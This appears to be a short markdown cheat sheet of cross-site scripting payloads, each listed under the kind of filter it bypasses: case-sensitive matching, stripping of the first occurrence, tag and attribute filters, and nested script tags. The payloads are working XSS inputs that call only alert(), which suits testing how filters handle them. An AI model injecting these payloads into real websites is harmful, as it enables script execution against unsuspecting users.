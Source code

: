 ___
# Case sensitive

```html
<ScripT>alert()</script>
```

# Second occurence

```html
<script>alert()</script><script>alert()</script>
```

# Script Tags

```html
<u/onmouseover=alert();//>test
```

# Attributes

```html
<iframe/src=javascript:alert();//>
```

# All tags

```html
<img src=x onerror=alert();
```

```html
<scr<script>ipt>alert()</sc</script>ript>
```